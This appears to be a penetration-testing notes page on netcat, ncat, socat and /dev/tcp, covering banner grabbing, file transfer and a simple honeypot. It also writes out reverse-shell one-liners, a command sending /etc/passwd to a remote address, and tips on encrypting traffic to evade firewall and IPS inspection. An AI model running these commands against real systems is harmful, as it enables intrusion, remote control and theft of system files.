 # Utilities

## Netcat

Using netcat is very simple: just enter the IP and then the port. This establishes the connection to the service and, in the example below, displays the FTP banner.

```
$ nc -v www.businesscorp.com.br 21

Connection to www.businesscorp.com.br (37.59.174.225) 21 port [tcp/ftp] succeeded!
220 ProFTPD 1.3.4a Server (FTP) [::ffff:37.59.174.225]
```

If we want to connect to a web service, we need to send a request (GET, HEAD, POST, etc), along with the location we want to access (in the example below we used “/”) and also the HTTP version. Remember that if it's HTTPS, you'll need to send the **host.** header.

```
$ nc -v www.businesscorp.com.br 80
HEAD / HTTP/1.0
```

To open a port on the machine for another host to connect, we use netcat as follows. In this case, the other host simply uses the machine's IP and port to establish the connection.

```
$ nc -nlvp 4444

Listening on 0.0.0.0 4444
```

### File transfer

If you want to transfer files, just use the following method. First we open the port on the machine that wants to receive the file, inserting the “>” indicating that whatever is sent to this connection will be saved in the defined file name.

```bash
nc -nlvp 1337 > xpto.txt
```

Now all you have to do is connect to this IP and enter the port and the file to be sent

```bash
nc -v 192.168.0.10 1337 < xpto.txt
```

### Creating a honeypot

If we want to simulate an open door on a machine to serve as a honeypot, we do the following.

```bash
while true; do sudo nc -nlvp 21 1>> log.txt 2>> erro.txt; done;
```

### Reverse Shell

Netcat is also used when we want to get a reverse shell. We can open a port on our machine and on the target machine send the connection as follows.

```
nc <ip> <port> -e /bin/bash
```

The idea of the `reverse shell` is to bypass the firewall, once we have discovered an outgoing port on the target network, we can take advantage of this by making the target machine connect to ours, thus sending a shell. We can also generate through these sites.

## Ncat

Ncat is an evolution of netcat, the difference is that it supports encryption and therefore it is not possible to clearly read what is transmitted during communication. We then need to generate a certificate and a key.

```
$ openssl req -x509 -newkey rsa:2048 -keyout my-key.pem -out cert.pem -days 10
```

To open the connection, you will be asked to use the password you entered.

```
$ ncat -nlvp <port> --ssl-key my-key.pem --ssl-cert cert.pem
```

To connect, we need to pass one more parameter.

```
$ ncat -vn <ip> <port> --ssl
```

With encrypted communication, the firewall, IPS or similar, may have more difficulty analyzing the packets that are being transmitted for possible blocking.

## Socat

In socat, we can open a specific port like this (by default it asks for two addresses, so the "dash" is used as an alias to say that it does not have another address).

```
$ socat tcp4-listen:<porta> -
```

To connect, we can use any utility and enter the IP and port that was opened.

Now, using socat to connect, it looks like this.

```
$ socat tcp4:<ip>:<port> -
```

If we want to send /bin/bash

```
$ socat tcp4-listen:<port> EXEC:/bin/bash
```

## /dev/tcp

`/dev/tcp` also has some features in case we don't have access to the other utilities. When we use it, we open a tcp socket with a specific IP address and port. We can send a message or a file.

```
$ cat /etc/passwd > /dev/tcp/10.10.10.5/1337
```

If we want to send a bash, we do it as follows (the -i parameter means interactive).

```
$ bash -i > /dev/tcp/10.10.10.5/1337 0>&1 2>&1
```

We can also check if a port is open.

```
$ >/dev/tcp/www.businesscorp.com.br/21 && echo "port open"
port open
```

Remember that 0>&1 means that all stdin will be directed to stdout and 2>&1 means that all errors will be directed to stdout.

<figure><img src="../.gitbook/assets/utitilies.png" alt=""><figcaption></figcaption></figure>

STDIN - 0\
STDOUT - 1\
STDERR - 2
